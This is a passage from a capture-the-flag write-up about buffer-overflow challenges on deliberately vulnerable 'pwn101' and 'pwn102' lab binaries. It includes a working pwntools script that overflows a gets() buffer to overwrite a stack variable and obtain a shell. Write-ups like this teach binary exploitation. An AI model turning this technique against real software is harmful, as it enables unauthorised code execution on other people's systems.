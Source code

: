 This binary is a PIE (Position Independent Executable), which means the address of its symbols will be determined when it's started and will be random. Its stack is not executable (NX is set).

The binary doesn’t use canary for the stack.

### Code (disasm)

![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-01.png)

The `main()` function accepts user input using the `gets()` function. This function doesn't check the length of the input, so it's a perfect candidate for a buffer overflows.

### Exploit

With a buffer overflow, we overwrite the value in the second variable so that the program will open a shell for us.

```python
#!/usr/bin/env python3
#
# Exploit: buffer overflow
# We overwrite the value in the second variable so that the program will open
# a shell for us

from pwn import *


context.update(arch="amd64", os="linux")

# Fill input string and overwrite the value in the next variable in the stack
payload = b"A" * (0x40 - 0x4 + 1)

process = process("./pwn101.pwn101")
# process = remote("xxx", 9001)

process.clean()
process.sendline(payload)

process.interactive()
```

## PWN102 - Buffer overflow to arbitrarily change variable value

### Binary behaviour

```shell
root@c18329d2a566:~# ./pwn102.pwn102
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 102

I need badf00d to fee1dead
Am I right? yeah
I'm feeling dead, coz you said I need bad food :(
```
